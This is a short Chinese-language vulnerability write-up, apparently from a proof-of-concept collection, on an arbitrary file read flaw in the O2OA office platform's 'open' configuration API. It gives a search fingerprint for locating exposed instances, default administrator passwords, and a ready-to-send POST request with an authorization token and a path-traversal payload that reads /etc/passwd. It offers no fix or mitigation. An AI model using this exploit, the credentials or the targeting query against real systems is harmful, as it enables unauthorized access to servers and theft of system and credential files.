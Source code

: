 # 

# O2OA open 后台任意文件读取漏洞

## 漏洞描述

O2OA是一款开源免费的企业及团队办公平台，提供门户管理、流程管理、信息管理、数据管理四大平台,集工作汇报、项目协作、移动OA、文档分享、流程审批、数据协作等众多功能，满足企业各类管理和协作需求。 O2OA系统 open 接口存在任意文件读取漏洞。攻击者可利用漏洞读取任意文件。

## 漏洞影响

```
O2OA
```

## 网络测绘

```
title=="O2OA"
```

## 漏洞复现

登录页面

![image-20230314090606993](images/image-20230314090606993.png)

默认密码登录后台 xadmin/o2 (o2oa@2022), 验证POC

```
POST /x_program_center/jaxrs/config/open?v=6.3
Authorization: PfyuxmzgIzq74NYhOcQ5NGbegmqb8H4y50QnO7mEHhA

{"fileName":"../../../etc/passwd"}
```

![image-20230314090619645](images/image-20230314090619645.png)
